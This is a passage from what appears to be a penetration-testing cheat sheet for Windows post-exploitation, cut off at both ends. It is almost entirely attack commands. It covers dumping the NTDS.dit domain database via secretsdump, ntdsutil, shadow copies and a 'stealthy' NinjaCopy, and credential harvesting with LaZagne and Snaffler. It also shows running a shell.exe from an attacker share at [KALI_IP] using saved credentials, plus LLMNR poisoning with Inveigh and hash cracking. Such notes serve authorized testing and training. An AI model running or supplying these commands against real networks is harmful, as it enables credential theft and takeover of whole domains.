                 *   NTDS Dumping
                    *   `secretsdump.py -ntds NTDS.dit.save -system SYSTEM.save LOCAL`
                    *   NTDSUtil
                        *   `ntdsutil 'ac i ntds' 'ifm' 'create full c:\windows\temp\NTDS' q q`
                        *   `C:\Windows\Temp\NTDS\Active Directory\ntds.dit`
                        *   `C:\Windows\Temp\NTDS\registry\SYSTEM`
                    *   VSSAdmin
                        *   `vssadmin create shadow /for=C:`
                        *   `copy $ShadowCopyName\Windows\NTDS\NTDS.dit C:\Windows\Temp\NTDS.dit.save`
                        *   `copy $ShadowCopyName\Windows\System32\config\SYSTEM C:\Windows\Temp\SYSTEM.save`
                    *   NinjaCopy
                        *   Stealthy Approach
                        *   `Invoke-NinjaCopy.ps1 -Path "C:\Windows\NTDS\NTDS.dit" -LocalDestination "C:\Windows\Temp\NTDS.dit.save"`
                        *   `reg save hklm\system c:\windows\temp\SYSTEM.save`
            *   [SeManageVolume](https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public?source=post_page-----b95d3146cfe9--------------------------------)
            *   [SeRestore](https://github.com/xct/SeRestoreAbuse)
    *   Credentials Hunting
        *   Once Compromised SYSTEM → Get All Possible Credentials
        *   Tools
            *   `Lazagne.exe all -oN`
            *   `Invoke-SessionGopher.ps1`
            *   [`https://github.com/carlospolop/MSF-Credentials`](https://github.com/carlospolop/MSF-Credentials)
            *   WinPEAS / PowerUP
        *   Hash Dumping (Local Admin)
            *   SeBackup / SeDebug Exploits
            *   Process Memory → `lazagne.exe memory`
        *   CMDKey Storage
            *   `cmdkey /list`
            *   `runas /savecred /user:[USER] “\\[KALI_IP]\Share\shell.exe”`
        *   Web Applications
            *   Web Roots            → `c:\xampp\htdocs`, `c:\inetpub\wwwroot`
            *   Host Mappings    → `default`, `000-default.conf`
            *   Log Files                → `[access/error].log`, `httpd-[access/error].log`, `httpd.conf`
            *   DB Files                 → `*[db/database/settings/config].*`, `*.db`, `.sql*`
            *   Code Analysis      → Sensitive Exposure / Docker Files / Inputs & Functions / Connection Strings / Dependencies
            *   Write Privileges   → WebShell + LOCAL/NETWORK Impersonate Escalation
        *   SMB Access
            *   `Find-DomainShare -CheckShareAccess` 
            *   `Invoke-ShareFinder` /`Invoke-FileFinder`
            *   Shares
                *   `net use x: \\[HOST]\[SHARE] "[empty/password]" /u:[empty/Guest/user]`
            *   Password Scraping
                *   `Snaffler.exe -s -d [DOMAIN] -o snaffler.log -v data`
                *   `Snaffler.exe -s -i \\[HOST]\[SHARE]`
            *   LLMNR
                *   [NTLM\_Theft](https://github.com/Greenwolf/ntlm_theft)
                *   `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput`
                *   Cracking  → `hashcat -m 5600`
        *   GIT Repositories
            *   Directories → `.git` / `.gitignore`
            *   `git log --oneline` 
            *   `git status`
            *   `git show [HASH]`
            *   `git diff [HASH_1] [HASH_2]`
        *   ADS Streams
            *   `dir /R [PATH]`
            *   `Get-Item * -Stream *`
            *   `Get-Content .\[FILE] -Stream [ADS_FILE]`
        *   PS Credential Files
            *   Extensions → `.cred`, `.xml`